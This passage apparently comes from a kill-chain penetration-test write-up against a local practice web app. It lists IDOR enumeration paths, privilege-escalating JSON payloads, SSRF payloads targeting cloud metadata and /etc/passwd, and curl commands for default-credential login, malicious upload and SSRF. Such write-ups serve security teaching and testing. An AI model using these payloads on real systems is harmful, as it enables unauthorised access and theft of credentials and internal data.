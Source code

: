 ### 2. Weaponization
**Objective:** Create attack vectors based on discovered vulnerabilities

**Attack Vectors Prepared:**

- **Authentication Bypass Payloads:**
  - Brute force credential lists
  - Default password attempts
  - Session hijacking techniques

- **IDOR Exploitation Parameters:**
  ```
  /wcorp/api/user/profile/1
  /wcorp/api/user/profile/2
  /wcorp/api/user/sensitive/1
  ```

- **Parameter Tampering Payloads:**
  ```json
  {"username":"attacker","password":"test","role":"admin"}
  {"id":1,"isAdmin":true}
  ```

- **SSRF Payloads:**
  ```
  http://localhost:3306
  http://169.254.169.254/latest/meta-data/
  file:///etc/passwd
  ```

### 3. Delivery
**Objective:** Deploy weaponized payloads to the target

**Delivery Methods:**

- **Direct API Calls:**
  ```bash
  # Authentication attempt
  curl -X POST http://localhost:3000/wcorp/api/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"admin123"}'
  ```

- **Malicious File Uploads:**
  ```bash
  # Upload potentially malicious file
  curl -X POST http://localhost:3000/wcorp/api/upload \
    -F "file=@malicious.txt" \
    -H "Authorization: Bearer <token>"
  ```

- **SSRF Requests:**
  ```bash
  # Attempt to access internal resources
  curl "http://localhost:3000/wcorp/api/fetch-url?url=http://localhost:3306"
  ```
